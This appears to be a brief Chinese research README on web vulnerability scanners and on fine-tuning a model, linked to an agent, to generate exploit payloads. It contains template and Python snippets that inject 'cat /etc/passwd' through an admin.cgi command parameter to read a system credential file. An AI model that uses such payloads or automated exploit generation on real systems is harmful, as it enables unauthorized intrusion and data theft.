

# 251023 README

## 扫描器

目前找到了几个扫描器可以检测到Web漏洞的Poc（包含注入点和payload）：BurpSuite, AWVS, Arachni , and ZAP，主要依赖网络爬虫和路径枚举来发现注入点，存在的问题有：

- 返回poc过多，需要过滤
- 攻击策略不足，打算通过微调解决
- 如何接入agent，实现自动化，部分扫描器有提供MCP服务（如BurpSuite），还在配置环境中

## 微调

微调方面打算调整Output，实现poc解耦，使微调专注生成payload和解析执行响应的脚本。但是现在收集到的数据很混乱，大部分都不符合解耦的规范，需要人工调整生成很多比较规范的输入输出对



```yaml
variables:
  Hostname: "target IP"
  WebPath: "gi-bin/admin.cgi?Command=sysCommand"
  payload: "cat+/etc/passwd"
http:
- method: GET
  path:
  - 'https://{{Hostname}}/{{WebPath}}&Cmd={{payload}}'
```

```
def exploit(self):
	Webpath_list = ["gi-bin/admin.cgi?Command=sysCommand",……]
	payload = "cat+/etc/passwd"
	for path in Webpath_list:
		urls=f"{self.url}/{path}&Cmd={payload}"
	……
```
